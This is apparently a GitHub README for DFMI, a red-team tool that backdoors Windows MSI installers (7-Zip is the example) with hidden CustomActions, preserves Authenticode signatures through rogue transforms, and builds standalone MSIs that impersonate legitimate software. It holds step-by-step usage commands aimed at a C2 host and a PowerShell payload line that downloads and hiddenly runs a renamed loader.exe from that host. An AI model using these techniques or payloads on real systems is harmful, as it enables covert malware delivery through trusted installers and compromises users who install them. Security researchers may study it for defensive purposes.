







# DFMI: Dont F(ool) My Installer

# Yet another FAFO project: Fileless code execution by abusing MSI installer files

DFMI is a suite that is developed for fileless code execution and/or covert payload delivery in red team engagements through ".msi" files. It abuses the Windows Installer CustomAction mechanism to execute arbitrary payloads silently during software installation — while the legitimate installer continues to function normally from the user's perspective. 

## ⚠️ DISCLAIMER ⚠️

DFMI is developed for authorized red team engagements, penetration testing, and security research only. Do not use this tool against any system you do not own or have explicit written permission to test. The authors assume no responsibility for misuse.

## ⚙️ Current capabilities
- Fileless payload delivery for initial access and/or post-exploitation --leave no files behind
- Cross-platform operation: Generate your payloads either from Linux(*) or Windows **--see Module 2 for technical constraints on Linux
- Inject backdoors as **"CustomActions"** into **any** MSI package --whether it is signed or unsigned
- Preserve Authenticode signatures on signed MSIs using MST transforms
- Generate standalone backdoor MSI packages with custom metadata

## 🧠 Necessity of this project

Fileless execution is becoming more and more important day by day; and as red teamers, we need to utilize different (preferably covert) methods to evade security mechanisms. This project is fundamentally based on this reason --and of course we wanted to FAFO. So far, it is working well. 

## ⚔️ Modules

### Module 1 - ``inject``

- **Platform:** Windows + Linux
- **TL;DR:** Simply injects a **"CustomAction (CA)"** into an existing MSI package. 
- **What it does:** Takes any existing MSI package and injects a backdoor CustomAction into a copy of it. The original file is never modified. The backdoored MSI installs the original software normally while silently executing your payload in the background.
  Windows Installer processes a table called `CustomAction` during installation. Each row in this table defines an action — run a script, call a DLL, launch an executable — that fires at a specific point in the installation sequence.
- **Limitations:** Modifying any part of a signed MSI invalidates its Authenticode signature. Windows may show an "Unknown publisher" warning depending on policy. Use `rogue-mst` if preserving the signature is required.

#### Details:

DFMI injects a **Type 50 CustomAction**, which is a property-based deferred EXE invocation:
 
```
Property table:
  CMDEXE = C:\Windows\System32\cmd.exe
 
CustomAction table:
  Action  = WU
  Type    = 50       ← deferred EXE from property
  Source  = CMDEXE   ← resolves to cmd.exe via the property above
  Target  = /c "powershell -NoP -W Hidden -Enc <B64> & exit 0"
 
InstallExecuteSequence table:
  WU @ sequence 1510
```
 
Sequence 1510 fires immediately after `InstallInitialize` (1500) and before `InstallFiles` (4000) — meaning the payload executes before any legitimate files are written to disk. The `& exit 0` suffix forces the CA to always return `ERROR_SUCCESS`, so the installer never aborts regardless of what the payload does.
 
DFMI also randomizes both `ProductCode` and `PackageCode` on every run. These two GUIDs serve different purposes in the Windows Installer cache:
 
- `ProductCode` is the application identifier stored in the `Property` table
- `PackageCode` is stored in the `_SummaryInformation` stream (Revision Number field) and is what the Installer engine actually uses to cache the package at `C:\Windows\Installer\`
 
If only `ProductCode` is changed and `PackageCode` remains the same, Windows will still serve the old cached MSI instead of the new one. DFMI updates both.
 
For MSIs that have no `CustomAction` or `InstallExecuteSequence` table (common in minimal packages like 7-Zip), DFMI creates these tables from scratch using IDT format (on Linux) or a `CREATE TABLE` SQL statement via COM (on Windows).
 
**Backend difference:**
- On **Linux**, DFMI uses `msibuild` and `msiinfo` from the `msitools` package to execute SQL queries against the MSI database directly.
- On **Windows**, DFMI uses the `WindowsInstaller.Installer` COM object via PowerShell. All operations — `OpenDatabase`, `OpenView`, `Execute`, `Commit` — happen entirely in memory via PowerShell. No additional binaries are needed. The `SummaryInformation` update (for `PackageCode`) is performed within the same open database handle before `Commit()` to avoid Windows COM file locking issues, which occur if you try to open the same file with a second `OpenDatabase` call while the first handle is still active.

---

### Module 2 - ``rogue-mst``

- **Platform:** Windows only
- **TL;DR:** Generates an MSI Transform File (``.mst``) and injects into legitimate ``.msi`` file without corrupting it's signature. 
- **What it does:** Generates an an MSI Transform File (``.mst``) that contains only the backdoor **"CustomAction"**. The original MSI's Authenticode signature remains **completely intact**. On the target machine, `msiexec` is called with the `TRANSFORMS=` parameter, which merges the transform with the original installer at runtime
- **Limitations:**
  - Requires a Windows machine to generate the transform.
  - The `.mst` file itself is unsigned. Windows allows unsigned transforms by default, but environments with strict MSI validation policies may block them.
  - Both `original.msi` and `evil.mst` must be accessible to `msiexec` at deploy time — two files instead of one.

#### Details:

An MST (Microsoft Software Transform) file is a diff format — it encodes only the changes between two MSI databases. When applied at install time via `TRANSFORMS=`, Windows Installer merges the transform tables into the original MSI in memory before execution. The original file is never written to.
 
DFMI generates the transform by opening the original MSI twice:
 
```
db_ref  = OpenDatabase(original.msi, MSIDBOPEN_READONLY)  ← reference, never touched
db_work = OpenDatabase(temp_copy.msi, MSIDBOPEN_TRANSACT)  ← in-memory working copy
```
 
The backdoor CA is injected into `db_work`. Then:
 
```
db_work.GenerateTransform(db_ref, evil.mst)
db_work.CreateTransformSummaryInfo(db_ref, evil.mst, 0, 0)
```
 
`GenerateTransform` computes the diff between `db_work` (modified) and `db_ref` (original) and writes only the delta — our three table rows — to `evil.mst`. `CreateTransformSummaryInfo` writes the required MST metadata headers automatically. The temp copy is then deleted. The original MSI is never opened for writing.
 
The resulting `.mst` file typically contains only three added rows: one in `Property`, one in `CustomAction`, and one in `InstallExecuteSequence`. The original MSI's hash and Authenticode signature are not affected.
 
**Deploy:**
```powershell
msiexec /i original.msi TRANSFORMS=evil.mst /qn
```
#### Why Windows only?

The `GenerateTransform` and `CreateTransformSummaryInfo` methods are part of the **Windows Installer COM API** (`WindowsInstaller.Installer`), which only exists on Windows. There is no equivalent Linux implementation in `msitools` or any other open-source package — `msitools` supports reading, exporting, and building MSI packages, but not MST generation.
 
Implementing MST generation from scratch on Linux would require manually producing a valid OLE Compound Document with the correct transform schema, summary stream, and validation flags — a significant engineering effort with high compatibility risk. The COM API handles all of this reliably and is available natively on every Windows machine.
 
In practice, this is rarely a constraint: the attacker generates the `.mst` on their Windows analysis VM, then delivers both the original (legitimate, signed) MSI and the small transform file to the target.

---

### Module 3 - ``stub``

- **Platform:** Windows + Linux
- **TL;DR:** Creates a malicious MSI file from scratch. 
- **What it does:** Generates a complete, standalone backdoor MSI package from scratch. No original installer is needed. The stub installs nothing to disk — it exists solely to fire the payload CA and exit. Product metadata (name, manufacturer, version) is fully customizable to impersonate any legitimate software package.
- **Limitations:**
  - The stub MSI is unsigned. There is no legitimate publisher info.
  - Detection risk is lower when metadata matches real software, but the lack of a digital signature may be flagged in environments that enforce signing.
  - The embedded base MSI on Windows is static — it uses fixed placeholder GUIDs that DFMI replaces at runtime. If Windows Installer ever validates the embedded CAB structure against the product metadata in unexpected ways, this could cause issues (not observed in testing)

#### Details:

**On Linux:**
 
DFMI generates a minimal WiX XML file (`.wxs`) with an empty component — the smallest valid MSI structure that `wixl` will compile. The WXS contains no files, no registry keys, no shortcuts — just the skeleton required for a valid installer. `wixl` compiles this to a base MSI, and DFMI then injects the backdoor CA using the same `msibuild` flow as the `inject` module.
 
**On Windows:**
 
There is no `wixl` on Windows and compiling WiX from source is impractical in a red team context. Instead, DFMI carries an embedded base MSI — a ~9KB minimal installer pre-compiled from the same WXS template — stored as a base64 string inside the Python script itself. At runtime, DFMI decodes this string and writes it to the output path, then injects the backdoor CA via PowerShell COM exactly as the `inject` module does. This makes the Windows stub path entirely self-contained with no external dependencies.
 
**Metadata customization:**
 
Because the MSI is built from scratch, all product metadata can be set freely:
 
```bash
python3 dfmi.py stub --c2 http://<C2>/<PAYLOAD> --name "XXX Updater" --manufacturer "XXX Inc." --version "24.1.XXX.0" -o xxx_update.msi
```
 
The resulting MSI will display this metadata in **"Programs and Features"** if installed persistently.

---

## 📦 Installation

- On Linux:

  ```bash
  sudo apt update && sudo apt install msitools wixl -y
  
  git clone https://github.com/BiloIndustries/DFMI.git
  ```
- On Windows:
  ```powershell
  curl https://github.com/BiloIndustries/DFMI/archive/refs/heads/main.zip -o DFMI.zip

  Expand-Archive -Path "DFMI.zip" -DestinationPath . ; cd DFMI-main
  ```

## 🔍 Proof-of-Concept (PoC)

#### We can run the tool and see the help menu:

```powershell
python.exe dfmi.py
```

<p align="center">  </p>

---

#### First, we can grab a legitimate ``.msi`` installer file, e.g. **"7-Zip"**:

```powershell
curl https://github.com/ip7z/7zip/releases/download/../7z.msi -o 7z-original.msi

certutil -hashfile "7z-original.msi" sha256 
```

<p align="center">  </p>

---

#### Using **"Module 1 - ``inject``"**:

  
  ```powershell
  python.exe .\dfmi.py inject "7z-original.msi" "7z-backdoored.msi" --c2 http://<C2>/payload.ps1
  ```

<p align="center">  </p>

After creating the backdoored file, we can install it simply using:

```powershell
msiexec.exe /i "7z-backdoored.msi"
```

*--or, you can double-click and install it*

<p align="center">  </p>

During the installation, our payload gets executed, e.g. ``calc.exe``:

<p align="center">  </p>

In addition to that, we can pop-up a fileless reverse shell connection. Modified content of ``payload.ps1``:

```powershell
$p=$env:TEMP+'\svc32.exe';(New-Object Net.WebClient).DownloadFile('http://<C2>/loader.exe',$p);Start-Process $p -ArgumentList 'http://<C2>/<MALWARE>' -WindowStyle Hidden
```
<p align="center">  </p>

<p align="center">  </p>

---

#### Using **"Module 2 - ``rogue-mst``"**:


---


